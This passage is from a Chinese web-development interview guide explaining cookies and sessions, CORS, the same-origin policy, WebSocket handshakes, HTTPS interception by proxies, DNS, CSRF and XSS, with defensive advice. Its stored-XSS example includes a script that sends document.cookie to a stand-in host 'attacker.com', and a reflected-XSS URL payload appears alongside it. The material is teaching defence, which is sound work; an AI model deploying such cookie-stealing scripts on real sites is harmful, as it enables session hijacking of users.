  2. **无大小限制**：不像 Cookie 有大小限制，Session 可以存储更多的数据。

- **缺点：**

  1. **服务器资源消耗**：每个用户都需要一个独立的 Session 数据，需要消耗服务器的资源。
  2. **跨域限制**：由于 Session 数据存储在服务器端，因此无法跨域访问，除非服务器支持跨域 Cookie。
  3. **扩展性差**：在分布式系统中，可能会导致某个服务器存储的 Session 数据丢失，从而导致用户会话状态丢失。

### 区别

Cookie（HTTP Cookie）和 Session（会话）都是用于在 Web 应用程序中维护状态和用户身份的两种不同机制：

- **存储位置**：

  - **Cookie**：Cookie 是<u>存储在客户端</u>（通常是用户的浏览器）中的小段文本数据。浏览器会在每次请求中自动发送 Cookie 到服务器，以便服务器可以识别用户。
  - **Session**：Session 数据通常<u>存储在服务器</u>上，而不是在客户端。服务器为每个用户创建一个唯一的会话，然后在服务器上存储会话数据。

- **持久性**：

  - **Cookie**：Cookie 可以具有持久性，可以设置过期时间。如果没有设置过期时间，Cookie 将成为会话 Cookie，存在于用户关闭浏览器前的会话期间。
  - **Session**：会话数据通常存在于用户活动的会话期间，一旦会话结束（用户退出登录或关闭浏览器），会话数据通常会被删除。

- **安全性**：

  - **Cookie**：Cookie 数据存储在客户端，可能会被用户篡改或窃取。因此，敏感信息通常不应存储在 Cookie 中，或者应该进行加密。
  - **Session**：Session 数据存储在服务器上，客户端不可见，因此通常更安全，特别适合存储敏感信息。

- **服务器负担**：

  - **Cookie**：服务器不需要维护 Cookie 的状态，因为它们存储在客户端。每次请求中都包含 Cookie，服务器只需要验证 Cookie 的有效性。
  - **Session**：服务器需要维护会话数据，这可能会增加服务器的负担，尤其是在大型应用程序中。

- **跨多个页面**：

  - **Cookie**：Cookie 可以被跨多个页面和不同子域共享，这使得它们适用于用户跟踪和跨多个页面的数据传递。
  - **Session**：会话数据通常只在单个会话期间可用，而不容易在不同会话之间共享。

- **无需登录状态**：
  - **Cookie**：Cookie 可以在用户未登录的情况下使用，例如用于购物车或用户首选项。
  - **Session**：会话通常与用户的身份验证和登录状态相关，需要用户登录后才能创建和访问会话。

## 面试题 14：什么是跨域？如何解决？

在 Web 应用程序中，一个网页的代码试图向不同源（即不同的域名 / ip、协议或端口）发起 HTTP 请求。浏览器的同源策略（Same-Origin Policy）限制了跨域请求，以保护用户的安全性和隐私。同源策略要求网页只能与同一源的资源进行交互，而不允许与不同源的资源直接交互。

**解决方法：**

- CORS：服务器开启跨域资源共享，可以允许指定源（域名、协议、端口）的请求 `Access-Control-Allow-Origin`。

::: tip cors

浏览器会标识 `Origin` 字段，服务器允许跨域时，通常会在响应头中添加 `Access-Control-Allow-Origin` 字段。

后端设置为：

- `Access-Control-Allow-Origin: *`（它的值可以是具体的域名，表示仅允许该域名发起的跨域请求；也可以是\*，表示允许任何源发起的跨域请求。）
- 后端支持预检请求 options：`Access-Control-Allow-Methods`、`Access-Control-Allow-Headers` 设置允许的请求方法和请求头。

以 express 为例：

```js
// 处理 OPTIONS 请求
app.options('*', (req, res) => {
  // 设置允许的请求方法
  res.setHeader(
    'Access-Control-Allow-Methods',
    'GET, POST, PUT, DELETE, OPTIONS'
  )
  // 设置允许的请求头
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization')
  // 设置允许的源
  res.setHeader('Access-Control-Allow-Origin', '*')
  // 设置预检请求的缓存时间
  res.setHeader('Access-Control-Max-Age', '86400')
  res.status(200).send()
})
```

:::

- nginx 代理跨域
- nodejs 中间件代理跨域，通过 node 开启一个代理服务器。

## 面试题 15：同源策略具体限制的具体内容

- **DOM 访问限制**：不同源的网页不能直接访问彼此的 DOM 元素，包括读取和修改。这意味着一个网页无法通过 JavaScript 获取另一个网页的内容，除非目标网页明确授权。
- **Cookie 限制**：同源策略阻止网页访问不属于自己源的 Cookie。Cookie 是用于在客户端存储和传输信息的机制，同源策略确保 Cookie 只能由创建它的源访问。
- **XMLHttpRequest 限制**：XMLHttpRequest（XHR）是用于在网页和服务器之间进行异步数据交换的技术。同源策略禁止不同源的网页通过 XHR 请求发送或接收数据。
- **IndexedDB**：IndexedDB 遵循同源策略。但是可以通过 iframe 来进行数据传递。
- **跨文档消息限制**：同源策略限制不同源的窗口或帧之间通过 postMessage()方法进行通信。这可以防止恶意网页滥用通信渠道。
- **脚本限制**：不同源的脚本文件（如 JavaScript）不能相互引用和执行。

## 面试题 16：发起请求是浏览器做了什么？

- **发送请求头**：浏览器向目标服务器发送一个请求，其中包含了请求方法（GET、POST 等）和请求的 URL。检查同源策略，浏览器会检查目标 URL 是否符合同源策略。它会比较目标 URL 的协议、主机和端口号与当前网页的协议、主机和端口号是否一致。<u>如果不一致，就会触发跨域请求</u>。
- **发送跨域请求**：如果目标 URL 与当前网页不同源，浏览器会发送一个跨域请求。跨域请求通常是一个 HTTP OPTIONS 预检请求（preflight request），用于检查目标服务器是否允许跨域请求。(当浏览器发出跨域请求时，它会自动在请求头中添加 Origin 字段)
- **服务器处理预检请求**：目标服务器接收到预检请求后，会进行一系列的处理。它会检查请求中的一些特定头部信息，如 `Origin` 和 `Access-Control-Request-Method`，来验证是否允许跨域请求。
- **发送响应头**：如果服务器允许跨域请求，它会在响应中添加一些特定的头部信息，如 `Access-Control-Allow-Origin` 和 `Access-Control-Allow-Methods`。这些头部信息告诉浏览器该请求是被允许的。
- **检查响应头**：浏览器接收到服务器的响应后，会检查响应中的头部信息。它会查看 `Access-Control-Allow-Origin` 头部，判断是否允许当前网页进行跨域请求。
- **处理响应数据**：如果服务器允许跨域请求，浏览器会将响应数据返回给发起请求的网页。否则，浏览器将拒绝访问响应数据，并在控制台中报错。

## 面试题 17：请求会发送 2 次的原因

1. **Preflight Requests (CORS)**：跨源资源共享（CORS）是一种安全机制，用于控制在不同源（域名、协议、端口）之间的资源请求。当你通过 Fetch API 向另一个域名发出跨源请求时，浏览器会自动进行 CORS 预检请求，也称为预检请求（preflight requests）。这是为了确定服务器是否接受跨源请求，以及哪些 HTTP 方法和头部字段是允许的。预检请求是 OPTIONS 方法的请求，这意味着你的浏览器首先发送一个 OPTIONS 请求，然后才发送实际的 GET 或 POST 请求。因此，你会看到两个请求。
2. **Redirects (重定向)**：如果服务器返回一个 HTTP 重定向响应（例如，状态码为 302 或 307），浏览器将首先向新的重定向目标 URL 发出一个请求，然后才会继续原始请求。这也可能导致看到两个请求，一个是重定向请求，另一个是最终目标请求。
3. **程序错误或重复调用**：在你的 JavaScript 代码中，有时会发生意外的重复调用 Fetch API 的情况，例如在某个事件处理程序中多次触发 Fetch 请求。这将导致多个请求被发送。
4. **浏览器预加载和预解析**：现代浏览器可能会在背后执行一些资源的预加载和预解析操作，以提高性能。这可能导致浏览器发送额外的请求。这些请求通常不会在开发者控制范围之内。
5. **浏览器插件或扩展**：有时，浏览器插件或扩展可能会触发 Fetch 请求。这可能会导致你看到不同于你的网站代码所发出的请求。

## 面试题 18：websocket

WebSocket 是在应用层实现的协议。尽管 WebSocket 的握手过程使用了 HTTP 协议，但一旦握手成功，WebSocket 连接会升级为全双工的通信通道，不再遵循 HTTP 协议的规则。在握手成功后，WebSocket 协议会在应用层上定义消息格式和通信规则，通过 TCP 协议在传输层上进行数据传输，使得客户端和服务器可以通过发送和接收 WebSocket 消息来进行实时的双向通信。

支持传输数据的格式：

- 文本数据
- 二进制数据

## 面试题 19：websocket 建立连接的过程

1. **客户端发起 HTTP 握手请求**：客户端首先向服务器发起一个标准的 HTTP 请求，这个请求包含了一些特定的头部，用于请求建立 WebSocket 连接。

```http
GET /chat HTTP/1.1 # 请求的路径和协议版本。
Host: server.example.com # 服务器的主机名。
Upgrade: websocket # 表示请求协议升级到WebSocket。
Connection: Upgrade # 表示希望升级连接。
Sec-WebSocket-Key: dGhLIHNvbXBsZSBuY2jZQ== # Base64编码的随机密钥，服务器用于生成响应中的`Sec-WebSocket-Accept`。
Sec-WebSocket-Version: 13 # WebSocket协议版本，当前版本是13。
```

2. **服务器响应 HTTP 握手请求**：如果服务器支持 WebSocket 并同意升级连接，则会返回一个 101 Switching Protocols 状态码的响应，表示协议切换成功。

```http
HTTP/1.1 101 Switching Protocols # 状态码表示协议切换。
Upgrade: websocket # 确认升级到WebSocket协议。
Connection: Upgrade # 确认连接升级。
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo= # 服务器基于客户端提供的`Sec-WebSocket-Key`计算得到值，保证握手安全。
```

3. **WebSocket 连接建立**：在服务器响应成功后，客户端和服务器之间的 HTTP 连接就升级为 WebSocket 连接，从此可以进行全双工的实时通信。此时，HTTP 头部已经不再使用，取而代之的是 WebSocket 数据帧。

4. **连接关闭**：WebSocket 连接可以由客户端或服务器任意一方关闭。关闭连接时，发送一个控制帧表示关闭请求，连接将以有序的方式关闭。

## 面试题 20：HTTP / HTTPS 抓包原理

抓包工具本质就是代理服务器

> 代理服务器就是位于客户端和服务器之间的中间服务器，用于转发 HTTP 请求和响应，当客户端向服务器发送 HTTP 请求时，该请求首先被发送到代理服务器，然后由代理服务器转发给目标服务器，目标服务器将响应发送回代理服务器，然后由代理服务器将响应转发给客户端。

### HTTP

HTTP 请求是明文的，代理服务器可以伪造一个完全一样的请求。对于 HTTP 抓包，无需做过多的处理，只需要让中间人负责转发客户端和服务端的数据包。

### HTTPS

中间人想要抓包，需在 HTTPS 加密通信之前：

1. 截取客户端发送的包含证书的报文，伪装成服务端，把自己的证书发给客户端，然后拿到【客户端返回的包含对称加密通信密钥的报文】，生成中间人与客户端对称加密的密钥。
2. 同样伪装成客户端，以服务端自己的非对称公钥加密【客户端返回的包含对称加密通信密钥的报文】发给服务端，获得服务端生成的对称加密密钥。
3. 这样一来，加密通信建立完成，而中间人拿到了通信的数据密钥，可以查看、修改 HTTPS 的通信报文。
4. 这里客户端与中间人通信、中间人与服务端通信，都是正常建立了 HTTPS 加密连接的。



其中很重要的一步是浏览器的根证书校验，CA 机构不可能随便给一个中间人签发不属于它的域名证书，也就不在客户端的操作系统上了，因此只能把中间人的根证书，导入到客户端的操作系统了，以此完成建立加密通信时对中间人证书的验证。

## 面试题 21：DNS 域名解析

### 1. 概念

DNS 是 Domain Name System（域名系统）的缩写，它是互联网的一项核心服务，主要功能是将人们容易记忆的域名（如 www.example.com）转换为计算机能够识别的IP地址（如 192.0.2.1）。简单来说，DNS 就像是互联网的“电话簿”，帮助用户通过域名找到对应的网站服务器。

### 2. 工作原理

当用户在浏览器中输入一个域名并按下回车键后，计算机首先会**检查本地的 DNS 缓存**，如果缓存中存在该域名对应的 IP 地址，就会直接使用这个地址来建立连接。如果本地缓存中没有相关记录，计算机就会**向本地 DNS 服务器发送查询请求**。

本地 DNS 服务器会**根据域名的层次结构**，从根域名服务器开始，逐步查询顶级域名服务器、权威域名服务器等，直到找到该域名对应的 IP 地址，并将其返回给用户的计算机。用户的计算机收到 IP 地址后，就可以与目标服务器建立连接，获取相应的网页或服务。

### 3. 组成部分

- **域名空间**：是一个树形的层次结构，由根域名、顶级域名（如.com、.org、.cn 等）、二级域名（如[baidu.com](https://baidu.com/)中的 “baidu”）以及子域名等组成。每个域名都在这个层次结构中有唯一的位置，通过域名的层次结构可以方便地进行域名的管理和解析。

  > 根域名：符号 “.” 表示，在实际使用中，通常省略不写。例如，当我们访问 “example.com” 时，实际上是在根域名 “.” 下的 “com” 顶级域名下的 “example” 二级域名。
  >
  > 例如，当我们访问 “https://www.baidu.com” 时，其实完整的域名是 “https://www.baidu.com.”，最后的点代表根域名。

- **域名服务器**：包括根域名服务器、顶级域名服务器、权威域名服务器（查询包括二级域名及更下级域名）和本地域名服务器等。

  - 根域名服务器是域名系统的核心，它**知道所有顶级域名服务器的地址**；

  - 顶级域名服务器负责管理各自顶级域名下的二级域名；

  - 权威域名服务器则保存着特定域名的准确信息，如域名对应的 IP 地址等；

  - 本地域名服务器是用户设备与其他域名服务器之间的桥梁，它缓存了大量常用域名的解析结果，以提高解析效率。

- **资源记录**：是域名服务器中存储的关于域名的各种信息，常见的资源记录类型有 A 记录（将域名映射到 IPv4 地址）、AAAA 记录（将域名映射到 IPv6 地址）、CNAME 记录（用于创建域名的别名）、MX 记录（指定邮件服务器的域名）等。这些资源记录是 DNS 进行域名解析的依据。

### 4. 本地域名服务器是如何进行缓存的呢

1. **域名查询请求**：当用户在浏览器中输入一个域名并访问时，本地域名服务器首先会检查自己的缓存中是否有该域名对应的 IP 地址记录。
2. **缓存查找**：如果在缓存中找到了匹配的记录，并且该记录尚未过期，本地域名服务器就会直接将缓存中的 IP 地址返回给用户的设备，这样就完成了域名解析过程，无需再向其他服务器查询。
3. **缓存未命中**：如果在本地域名服务器的缓存中没有找到对应的记录，或者缓存中的记录已经过期，那么本地域名服务器就会向其他域名服务器（如权威域名服务器等）发送查询请求，以获取该域名的 IP 地址。
4. **获取并缓存**：当本地域名服务器从其他服务器获得了域名对应的 IP 地址后，它会将这个 IP 地址以及相关的域名信息存储到自己的缓存中，同时为该记录设置一个生存时间（TTL）。这样，下次再有对同一域名的解析请求时，就可以直接从缓存中获取 IP 地址，而无需再次向外部服务器查询，从而提高了域名解析的效率。

通过这种缓存机制，本地域名服务器可以减少对外部服务器的查询次数，加快域名解析速度，同时也减轻了整个域名系统的负载。

## 面试题 22：CSRF 和 XSS

### CSRF 跨站请求伪造

csrf 利用用户登陆状态，然后进行隐私数据的盗取，发起带有特殊目的的请求

#### **攻击过程**

1. **用户登录合法网站**：用户在合法网站 A 上登录，网站 A 验证用户身份后，在用户浏览器中设置一个包含用户身份信息的 Cookie，例如用户的登录凭证、Session ID 等。这个 Cookie 会在用户与网站 A 的后续交互中被自动发送到服务器，以识别用户身份。

2. **用户访问恶意网站**：用户在未退出合法网站 A 的情况下，访问了恶意网站 B。恶意网站 B 可以通过各种手段，如诱骗用户点击链接、嵌入恶意脚本等，让用户的浏览器向合法网站 A 发送请求。

   > 例如：恶意网站 B 可能会在页面中隐藏一个自动提交的表单。

3. **浏览器自动发送 Cookie**：由于浏览器会自动携带与合法网站 A 相关的 Cookie，即使这个请求是从恶意网站 B 发起的，浏览器也会将用户在网站 A 上的 Cookie 包含在请求中发送给网站 A 的服务器。

   > 即使网站 A 与恶意网站 B 之间存在跨域，cookie 也会被发送，是因为浏览器在处理 Cookie 方面有其自身规则：
   >
   > 浏览器判断是否发送 Cookie，主要依据**请求的目标域名**。**只要请求的目标域名与 Cookie 所属域名匹配**（或满足相关路径、子域名等匹配规则 ），浏览器就会自动在请求中携带该 Cookie，与请求从哪个页面发起（是合法网站 A 还是恶意网站 B ）并无直接关联。

4. **服务器误判请求**：网站 A 的服务器收到请求后，根据 Cookie 中的信息验证用户身份，由于 Cookie 是合法的，服务器会认为这是一个合法用户的请求，并执行相应的操作，例如转账、修改用户信息等，从而导致用户的信息泄露或遭受其他损失。

#### **解决办法**

- 使用 CSRF 令牌：在每个用户请求中包括一个 CSRF 令牌，该令牌是服务器生成的随机值。服务器会验证每个请求中的令牌是否匹配，如果不匹配则拒绝请求。

  先通过 `fetch` 请求获取 CSRF 令牌，并将其设置到表单隐藏域中。表单提交时，携带该令牌向服务器发送请求，服务器会验证令牌的有效性。

  ```html
  <form
    id="myForm"
    action="/protected-action"
    method="post"
  >
    <input
      type="hidden"
      id="csrfTokenInput"
      name="_csrf"
    />
    <button type="submit">Submit</button>
  </form>
  <script>
    // 获取CSRF令牌
    fetch('/csrf-token')
      .then((response) => response.json())
      .then((data) => {
        const csrfTokenInput = document.getElementById('csrfTokenInput')
        csrfTokenInput.value = data.csrfToken
      })
    const form = document.getElementById('myForm')
    form.addEventListener('submit', function (e) {
      e.preventDefault()
      const formData = new FormData(form)
      fetch('/protected-action', {
        method: 'post',
        body: formData
      })
        .then((response) => response.text())
        .then((result) => console.log(result))
        .catch((error) => console.error(error))
    })
  </script>
  ```

- 可以通过设置 cors，来判断请求的域是否安全

- 然后设置 http only cookie 来阻止 js 访问 cookie

- 不要使用 get 方法来执行状态更改的敏感操作

- 验证请求来源

  - 如检查`Referer`头信息，`Referer`是 HTTP 请求头中的一个字段，用于标识请求的来源页面 URL。
  - 缺点：**易被篡改**，攻击者可通过一些手段修改`Referer`字段值，如使用代理服务器等，使非法请求伪装成合法来源。

### XSS 跨站脚本攻击

攻击者通过在目标网站**注入恶意脚本**，网站在处理这些输入时，没有对其进行严格的过滤和转义，就将其输出到页面上，当用户访问该网站时，恶意脚本会在用户浏览器中执行，从而窃取用户信息、进行会话劫持等恶意操作。

XSS 攻击通常分为三种类型：存储型（Stored）、反射型（Reflected）和 DOM 型（DOM - based）。

#### **存储型**（持久型）——脚本存储在服务器

攻击者事先将恶意脚本代码**上传到目标网站的服务器**上，当其他用户访问包含恶意代码的页面时，他们的浏览器会执行这些代码。

例如：攻击者在一个论坛网站上发表了一个包含恶意脚本的评论。其他用户访问这个评论时，恶意脚本会被执行，窃取他们的会话 cookie 并发送到攻击者的服务器上。

```html
<!-- 攻击者发布的评论 -->
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

#### **反射型**（非持久型 / 参数型）——脚本在 url 中

攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后，将恶意脚本反射到响应页面中，用户浏览器执行该脚本。例如，搜索页面的 URL 中包含搜索关键词，若服务器未对关键词进行过滤，攻击者可构造包含恶意脚本的搜索链接，诱导用户点击。

例如：攻击者将恶意脚本包含在 URL 中，然后诱使用户点击该 URL。当用户打开 URL 时，恶意脚本会在用户的浏览器中执行，执行一些恶意操作。

```html
http://vulnerable-website.com/search?query=
<script>
  alert('XSS')
</script>
```

#### **DOM 型 XSS**——脚本操作 DOM

攻击者通过修改页面的 DOM（文档对象模型）结构，注入恶意脚本。这种攻击方式不依赖服务器端的处理，而是在客户端直接修改页面的 DOM 元素，从而执行恶意脚本。

```html
<!-- 用户输入 -->

<!-- 页面展示 -->
<div class="post-content">
  <p>这是一个帖子</p>
  
</div>
```

#### **防范措施**

- **输入验证和过滤**：对于用户输入的数据，应进行验证和过滤。仅允许预期的、安全的字符和内容通过，拒绝包含特殊字符的输入。
- **转义输出**：在将用户输入的数据插入到 HTML、JavaScript 或其他上下文中之前，务必对其进行适当的转义。这可以防止浏览器解释用户输入的内容为可执行代码。

#### 区别

- 反射型和存储型 XSS 的恶意代码由后端进行处理。
- DOM 型 XSS 是通过前端浏览器进行处理的。
